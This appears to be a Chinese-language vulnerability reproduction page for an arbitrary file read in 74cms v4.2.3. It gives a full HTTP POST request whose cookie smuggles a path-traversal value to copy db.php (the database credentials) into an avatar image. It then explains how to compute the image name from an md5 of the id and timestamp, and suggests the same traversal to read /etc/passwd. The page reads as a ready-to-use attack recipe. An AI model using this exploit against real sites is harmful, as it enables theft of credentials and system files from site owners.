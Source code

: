 74cms v4.2.3任意文件读取
========================

一、漏洞简介
------------

二、漏洞影响
------------

74cms v4.2.3

三、复现过程
------------

先尝试读取 db.php，向服务器post如下数据

    POST /index.php?m=&c=members&a=register HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Cookie: members_bind_info[temp_avatar]=../../../../Application/Common/Conf/db.php; members_bind_info[type]=qq; members_uc_info[password]=xcxmiku; members_uc_info[uid]=123456; members_uc_info[username]=xcxmiku
    Content-Type: application/x-www-form-urlencoded

    ajax=1®_type=2&utype=2&org=bind&ucenter=bind

会返回如下数据

1.png

在/data/upload/avatar/年月/日文件夹下 会生成一张图片

2.png

这张图片的名称由id和时间戳的md5值构成，我们可以将Burp
Suite上返回的时间转换为时间戳

3.png

不过这个时间可能会有误差，如果不行就把时间+-10

我post的id为654321，获取的时间戳为1571659588，将他们连在一起进行md5加密

4.png

成功获取图片名，然后访问

    https://www.0-sec.org/data/upload/avatar/1910/21/9aaa3653bf6ec9491bc002b52521962c.jpg 

保存该图片用文本打开就是 db.php 的内容。

###### PS:

使用post提交，参数如下

5.png

在Header可获取到时间戳

6.png

### 可能会遇到的问题

###### post数据返回unicode编码

因为名称，密码，ID等内容格式不对或重复会出现这种情况，将unicode编码进行解码，按提示修改即可。

###### 读取其他文件

../../../../Application/Common/Conf/db.php

是读取db.php，如果想读取根目录可以构造

../../../../../../../../etc/passwd

###### 时间戳问题

服务器返回的时间，服务器返回的是GMT格林威治标准时间，没有加上时区，只记录分秒即可
